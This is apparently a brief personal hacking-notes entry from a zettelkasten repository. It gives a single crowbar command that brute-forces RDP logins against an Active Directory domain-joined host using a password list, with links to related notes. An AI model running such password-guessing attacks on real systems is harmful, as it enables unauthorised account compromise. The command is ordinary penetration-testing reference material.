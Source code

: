 # crowbar brute force RDP active directory domain joined
```
crowbar -b rdp -n 1 -s $IP/32 -u username@DOMAIN.local -C ./passwords
```

` zet/20221003150778/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node

- [20221003150779](/zet/20221003150779/README.md) crowbar brute force RDP
- ~/kb/hacking/commands/crowbar.md

Tags:

    #command #hacking #crowbar 
